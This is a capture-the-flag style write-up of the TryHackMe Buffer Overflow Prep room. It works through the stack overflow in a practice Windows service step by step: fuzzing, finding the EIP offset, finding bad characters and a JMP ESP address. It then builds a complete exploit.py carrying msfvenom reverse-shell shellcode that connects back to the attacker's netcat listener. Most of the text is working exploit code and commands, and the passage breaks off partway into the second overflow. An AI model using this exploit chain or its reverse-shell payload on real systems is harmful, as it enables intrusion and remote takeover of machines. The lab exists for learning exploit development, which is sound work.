

# Buffer Overflow Prep

**Room Link:** [https://tryhackme.com/room/bufferoverflowprep](https://tryhackme.com/room/bufferoverflowprep)


## oscp.exe - OVERFLOW1

#### fuzzer.py

Slightly modified version of the script given.

```
#!/usr/bin/env python3

import socket, time, sys

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))
	timeout = 5
	prefix = "OVERFLOW1 "
	string = prefix + "A" * 100

	while True:
		try:
			with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
				s.settimeout(timeout)
				s.connect((ip, port))
				s.recv(1024)
				print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
				s.send(bytes(string, "latin-1"))
				s.recv(1024)
		except:
			print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
			sys.exit(0)
		string += 100 * "A"
		time.sleep(1)

except:
    print ("\nCould not connect!")
    sys.exit()

```


#### exploit.py

Slightly modified version of the script given.

```
import socket, time, sys

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))

	prefix = "OVERFLOW1 "
	offset = 0
	overflow = "A" * offset
	retn = ""
	padding = ""
	payload = ""
	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
 		print("Could not connect.")
except:
    print ("\nCould not connect!")
    sys.exit()
```

**Kali**

Login the the Windows box then open the oscp.exe within Immunity Debugger. Press the play button to start the program.

```
xfreerdp /u:admin /p:password /cert:ignore /v:$VICTIM /workarea
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### **Crash Replication & Controlling EIP**

```
python fuzzer.py $VICTIM 1337
```

Program crashed at 2000 bytes with fuzzer.py

<figure><figcaption></figcaption></figure>

```
/opt/metasploit-framework-5101/tools/exploit/pattern_create.rb -l 2000
```


#### **exploit.py - Code Changes #1**

I added the pattern\_create output into the payload variable.

```
import socket, time, sys

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))

	prefix = "OVERFLOW1 "
	offset = 0
	overflow = "A" * offset
	retn = ""
	padding = ""
	payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co"
	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
 		print("Could not connect.")
except:
    print ("\nCould not connect!")
    sys.exit()
```

On kail run the exploit again then in mona run the following to get the offset for EIP. We were able to find the offset was 1978.

**Kali**

```
python exploit.py $VICTIM 1337
```

**Immunity Debugger**

```
!mona findmsp -distance 2000
```


<figure><figcaption></figcaption></figure>


**exploit.py - Code Changes #2**

```
import socket

ip = "10.10.95.4"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload=""
#payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```


**Kali**

After running the program again we now can fill EIP with our Bs so we now have control of EIP.

```
python exploit.py $VICTIM 1337
```

<figure><figcaption></figcaption></figure>

### Finding Bad Characters

**Kali**

Now we changed the program to look for bad characters so we don't later use those bad characters when generating our payload. We do this by setting our payload to all possible characters, than follow EIP to see which characters aren't showing up. To do this we just have to keep running our exploit and removing the bad characters one by one. The bad characters found were: \x00\x07\x2e\xa0

```
python exploit.py $VICTIM 1337
```

#### **exploit.py - Code Changes #3**

```
import socket, time, sys

#bad chars found: \x00\x07\x2e\xa0
badchars = (
"\x01\x02\x03\x04\x05\x06\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))

	prefix = "OVERFLOW1 "
	offset = 1978
	overflow = "A" * offset
	retn = "BBBB"
	padding = ""
	payload = badchars
	#payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co"
	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
 		print("Could not connect.")
except:
    print ("\nCould not connect!")
    sys.exit()
```


<figure><figcaption><p>How to find the bad characters start location</p></figcaption></figure>

<figure><figcaption><p>Start location of bad characters</p></figcaption></figure>


### Finding a Jump Point

Now we need to find a place to jump to to run our payload.  We find there is only one place that will meets our conditions that we need which is an address with  SafeSEH, ASLR, and NXCompat disabled and the  memory address doesn't start with 0x00. ex: 0x0040000 won't work, 0x100000 will work. essfunc.dll meets this criteria.&#x20;

**Immunity Debugger**

```
!mona modules
```

<figure><figcaption></figcaption></figure>

We find that essfunc.dll has 9 possible JMP ESPs to use. So we will start with the first one which is 0x625011af but when we add it to our code we need it in little endian format so it becomes \xaf\x11\x50\x62.

**Immunity Debugger**

```
!mona find -s "\xff\xe4" -m essfunc.dll
```

<figure><figcaption></figcaption></figure>


### Exploit

Now that we have the return address to use, we just need to generate our payload without using the bad characters found previously. I also added 16 NOPs before the payload as suggested in the room. All that is left is to  &#x20;

```
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```

#### **exploit.py - Code Changes #3**

```
import socket, time, sys

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))

	prefix = "OVERFLOW1 "
	offset = 1978
	overflow = "A" * offset
	retn = "\xaf\x11\x50\x62"
	padding = "\x90" * 16
	payload = ("\xba\x16\x98\xb3\x39\xd9\xcd\xd9\x74\x24\xf4\x5b\x33\xc9\xb1"
"\x52\x31\x53\x12\x03\x53\x12\x83\xd5\x9c\x51\xcc\x25\x74\x17"
"\x2f\xd5\x85\x78\xb9\x30\xb4\xb8\xdd\x31\xe7\x08\x95\x17\x04"
"\xe2\xfb\x83\x9f\x86\xd3\xa4\x28\x2c\x02\x8b\xa9\x1d\x76\x8a"
"\x29\x5c\xab\x6c\x13\xaf\xbe\x6d\x54\xd2\x33\x3f\x0d\x98\xe6"
"\xaf\x3a\xd4\x3a\x44\x70\xf8\x3a\xb9\xc1\xfb\x6b\x6c\x59\xa2"
"\xab\x8f\x8e\xde\xe5\x97\xd3\xdb\xbc\x2c\x27\x97\x3e\xe4\x79"
"\x58\xec\xc9\xb5\xab\xec\x0e\x71\x54\x9b\x66\x81\xe9\x9c\xbd"
"\xfb\x35\x28\x25\x5b\xbd\x8a\x81\x5d\x12\x4c\x42\x51\xdf\x1a"
"\x0c\x76\xde\xcf\x27\x82\x6b\xee\xe7\x02\x2f\xd5\x23\x4e\xeb"
"\x74\x72\x2a\x5a\x88\x64\x95\x03\x2c\xef\x38\x57\x5d\xb2\x54"
"\x94\x6c\x4c\xa5\xb2\xe7\x3f\x97\x1d\x5c\xd7\x9b\xd6\x7a\x20"
"\xdb\xcc\x3b\xbe\x22\xef\x3b\x97\xe0\xbb\x6b\x8f\xc1\xc3\xe7"
"\x4f\xed\x11\xa7\x1f\x41\xca\x08\xcf\x21\xba\xe0\x05\xae\xe5"
"\x11\x26\x64\x8e\xb8\xdd\xef\xbb\x36\x16\x5c\xd3\x44\xa8\xb2"
"\x78\xc0\x4e\xde\x90\x84\xd9\x77\x08\x8d\x91\xe6\xd5\x1b\xdc"
"\x29\x5d\xa8\x21\xe7\x96\xc5\x31\x90\x56\x90\x6b\x37\x68\x0e"
"\x03\xdb\xfb\xd5\xd3\x92\xe7\x41\x84\xf3\xd6\x9b\x40\xee\x41"
"\x32\x76\xf3\x14\x7d\x32\x28\xe5\x80\xbb\xbd\x51\xa7\xab\x7b"
"\x59\xe3\x9f\xd3\x0c\xbd\x49\x92\xe6\x0f\x23\x4c\x54\xc6\xa3"
"\x09\x96\xd9\xb5\x15\xf3\xaf\x59\xa7\xaa\xe9\x66\x08\x3b\xfe"
"\x1f\x74\xdb\x01\xca\x3c\xfb\xe3\xde\x48\x94\xbd\x8b\xf0\xf9"
"\x3d\x66\x36\x04\xbe\x82\xc7\xf3\xde\xe7\xc2\xb8\x58\x14\xbf"
"\xd1\x0c\x1a\x6c\xd1\x04")

	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
 		print("Could not connect.")
except:
    print ("\nCould not connect!")
    sys.exit()
```

**Kali #1**

```
nc -lvnp 4444
```

**Kali #2**

```
python exploit.py $VICTIM 1337
```

<figure><figcaption></figcaption></figure>

## oscp.exe - OVERFLOW2

#### fuzzer.py

Slightly modified version of the script given.

```
#!/usr/bin/env python3

import socket, time, sys

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))
	timeout = 5
	prefix = "OVERFLOW2 "
	string = prefix + "A" * 100

	while True:
		try:
			with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
				s.settimeout(timeout)
				s.connect((ip, port))
				s.recv(1024)
				print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
				s.send(bytes(string, "latin-1"))
				s.recv(1024)
		except:
			print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
			sys.exit(0)
		string += 100 * "A"
		time.sleep(1)

except:
    print ("\nCould not connect!")
    sys.exit()

```

#### exploit.py

Slightly modified version of the script given.

```
import socket, time, sys

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))

	prefix = "OVERFLOW2 "
	offset = 0
	overflow = "A" * offset
	retn = ""
	padding = ""
	payload = ""
	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
 		print("Could not connect.")
except:
    print ("\nCould not connect!")
    sys.exit()
```

**Kali**

Login the the Windows box then open the oscp.exe within Immunity Debugger. Press the play button to start the program. The only difference we need to do is change our scripts prefix variable to point to OVERFLOW2

```
xfreerdp /u:admin /p:password /cert:ignore /v:$VICTIM /workarea
```


### **Crash Replication & Controlling EIP**

```
python fuzzer.py $VICTIM 1337
```

Program crashed at 700 bytes with fuzzer.py

<figure><figcaption></figcaption></figure>

```
/opt/metasploit-framework-5101/tools/exploit/pattern_create.rb -l 700
```


#### **exploit.py - Code Changes #1**

I added the pattern\_create output into the payload variable.

```
import socket, time, sys

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))

	prefix = "OVERFLOW2 "
	offset = 0
	overflow = "A" * offset
	retn = ""
	padding = ""
